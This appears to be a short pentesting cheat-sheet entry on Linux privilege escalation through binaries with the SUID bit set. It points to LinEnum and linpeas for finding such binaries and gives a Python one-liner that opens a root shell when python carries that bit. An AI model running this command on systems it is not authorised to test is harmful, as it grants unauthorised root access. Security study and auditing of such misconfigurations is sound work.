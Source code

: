 # SUID

To escalate privileges you need a binary with SUID-bit set.
Find this with [LinEnum](linenum.md) or [linpeas](linpeas.md).

If it's `python`, run following to become root:

    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'